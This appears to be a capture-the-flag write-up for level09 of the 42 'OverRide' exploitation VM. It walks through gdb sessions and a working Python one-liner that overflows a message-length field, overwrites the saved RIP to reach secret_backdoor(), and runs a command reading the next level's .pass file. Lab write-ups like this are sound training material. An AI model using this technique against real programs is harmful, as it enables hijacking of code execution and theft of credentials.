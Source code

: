 # Overwrite RIP and jump to `secret_backdoor()`

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level09
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level09@192.168.56.101's password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$
```

The program contains `secret_backdoor()` function which reads in at most 127 characters from `stdin` and stores them into the buffer pointed to by `command`. Then it executes  a command specified in `command` by calling `/bin/sh -c command`,

At first glance, return address must be overwritten in order to redirect flow of the program into `secret_backdoor()` function.

The function `set_msg()` calls `fgets` which reads 1024 bytes into the buffer of 128 bytes.

Then it copy at most len characters `buffer+180`, from source `str` into destination `buffer`.
```gdb
   0x5555555549a2 <set_msg+112>:	mov    rax,QWORD PTR [rbp-0x408]
=> 0x5555555549a9 <set_msg+119>:	mov    eax,DWORD PTR [rax+0xb4]
   0x5555555549af <set_msg+125>:	movsxd rdx,ea
```
The value of message length, `buffer+180` can be overwirtten using `username`.
With a large message there is possibility to overwrite saved RIP of `handle_msg()`

To find offset, calculate difference between `savedRIP` and the `buffer`:
```gdb
[...]
>: Enter your username
>>: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
>: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
�>: Msg @Unix-Dude
>>: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
[...]
Breakpoint 7, 0x0000555555554924 in handle_msg ()
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffe580:
 rip = 0x555555554924 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe590
 Arglist at 0x7fffffffe570, args:
 Locals at 0x7fffffffe570, Previous frame's sp is 0x7fffffffe580
 Saved registers:
  rbp at 0x7fffffffe570, rip at 0x7fffffffe578
gdb-peda$
gdb-peda$ x/64wx 0x7fffffffe4b0
0x7fffffffe4b0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4c0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4d0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4e0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe4f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe500:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe510:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe520:	0x42424242	0x42424242	0x42424242	0x42424242
0x7fffffffe530:	0x42424242	0x42424242	0x42424242	0x41414141
0x7fffffffe540:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe550:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffe560:	0x0a414141	0x0000008c	0xffffe580	0x00007fff
0x7fffffffe570:	0xffffe580	0x00007fff	0x55554abd	0x00005555
0x7fffffffe580:	0x00000000	0x00000000	0xf7a3d7ed	0x00007fff
0x7fffffffe590:	0x00000000	0x00000000	0xffffe668	0x00007fff
0x7fffffffe5a0:	0x55554000	0x00000001	0x55554aa8	0x00005555
gdb-peda$ p/d 0x7fffffffe578-0x7fffffffe4b0
$33 = 200
gdb-peda$
```
```gdb
gdb-peda$ print secret_backdoor
$35 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
By overwritting message length byte and using offset followed by the address of `secret_backdoor()` function, the flow of program can be modified.


## Exploit
```sh
level09@OverRide:~$ (python -c "import struct; print('\xff'*50 + '\n' + '\x55'*200 + struct.pack('Q', 0x55555555488c))"; echo 'cat /home/users/$(whoami)/.pass') | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, >: Msg @Unix-Dude
>>: >: Msg sent!
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
Segmentation fault (core dumped)
```
